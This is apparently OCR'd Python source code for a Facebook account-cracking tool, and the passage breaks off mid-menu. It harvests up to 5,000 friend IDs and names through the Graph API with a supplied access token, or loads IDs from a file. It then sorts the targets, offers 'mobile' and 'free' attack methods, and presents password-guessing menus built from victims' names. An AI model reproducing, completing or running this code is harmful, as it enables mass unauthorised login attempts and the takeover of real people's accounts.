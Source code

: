	try:
		koh2 = requests.get('https://graph.facebook.com/v2.0/'+pil+'?fields=friends.limit(5000)&access_token='+tokenku[0]).json()
		for pi in koh2['friends']['data']:
			id.append(pi['id']+'|'+pi['name'])
		print(' [] Total : '+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print (' [#] Connection Time Out')
		exit()
	except (KeyError,IOError):
		print(' [!] Not public Or Token Expire')
		exit()
def File():
			clear()
			print(logo)
			try:
				fileX = input ('\n [+] Enter file path : ') 
				for line in open(fileX, 'r').readlines():
					id.append(line.strip())
				setting()
			except IOError:
				exit("\n [!] file %s not found"%(fileX))

def setting():
	hu = ("2")
	if hu in ['1','01']:
		for tua in sorted(id):
			id2.append(tua)

	elif hu in ['2','02']:
		muda=[]
		for bacot in sorted(id):
			muda.append(bacot)
		bcm=len(muda)
		bcmi=(bcm-1)
		for xmud in range(bcm):
			id2.append(muda[bcmi])
			bcmi -=1
	elif hu in ['3','03']:
		for bacot in id:
			xx = random.randint(0,len(id2))
			id2.insert(xx,bacot)
	else:
		print (' [!] Choose Correct Option')
		exit()
	clear()
	print(logo);print ('\n [01] Method 1 ');print (' [02] Method 2 \033[1;97m')
	hc = input ("\n [#] method : ")
	if hc in ['1','01']:
		method.append('mobile')
	elif hc in ['2','02']:
		method.append('free')
	else:
		method.append('mobile')
	passmenu()
def passmenu():
	clear()
	print(logo);print  ('\n [01] First name digit pass \n [02] All Name Password \n [03] All Name+ password')
	passmen=input('\n [#] Select Pass : ')
	if passmen in ['1','01']:
		first()
	elif passmen in ['2','02']: